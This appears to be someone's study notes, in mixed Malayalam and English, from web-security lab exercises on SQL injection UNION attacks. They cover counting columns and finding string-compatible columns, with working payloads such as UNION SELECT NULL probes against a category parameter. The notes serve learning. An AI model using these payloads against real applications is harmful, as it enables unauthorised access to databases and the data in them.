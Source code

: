 ```
   5 , 6
   7 , 8
ivide table 1 ile a ine usernames and b ine passwords column aayi kandalmathi apo kathikolum.so oro column ilum athintethaya values undakum.
->so namuk ingane hack chyanengil aadyam namal specify chyuna table il ethra columns unden ariyanam.athinu namal null,null allengil orderby 1..2.  ithil ethengilum chyth nokanam ok.
   
```
    
       Lab-3.a (SQL injection UNION attack, determining the number of columns)
	          ====================================================
-->aadyam category parameter il ='  oru qoute itt nokuka apol application break aayi
-->so ini ='--   itt (no-space)  chythapol baki sql code comment aayi.so application 200 status code thanu.so ithinartham sql injection correct aayi nadakunund ennan ok
-->GET /filter?category=5'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
    ivide category enna parameteril aan ethra column und enn nokiyath
-->ivide namal NULL
-->order by cluse upayogichum namuk columns nokan :
-->GET /filter?category=5'+ORDERBY+1--    itt test chyuka.enit iterate chythal mathi

--------------------------------------------------------------------
 
     lab-3.b(Theory):
  
####  Finding columns with a useful data type in an SQL injection UNION attack:
-->Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.
-->Having already determined the number of required columns, you can probe each column to test whether it can hold string data by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn. For example, if the query returns four columns, you would submit:
              '+UNION+SELECT+'a',NULL,NULL,NULL--         (dont forget to add +)
			  ' UNION SELECT NULL,'a',NULL,NULL-- 
			  ' UNION SELECT NULL,NULL,'a',NULL-- 
			  ' UNION SELECT NULL,NULL,NULL,'a'--
      ==ingne eth column il aan string support chyunath enn ariyan patum==
-->If the data type of a column is not compatible with string data, the injected query will cause a database error, such as:
   **`Conversion failed when converting the varchar value 'a' to data type int`**
   
                Lab-3.b (practical-finding column that contain string in it 
				        ==========================================
		
-->first we need to find how many columns are there
          -->category='+UNION+SELECT+NULL--
-->second we need to find the column that contains string in it:
           -->category=' UNION SELECT NULL,'josu',NULL--
-->ivide randamathe coloumn mathraman string

=======================================================

         Lab-3.c(theory):
		 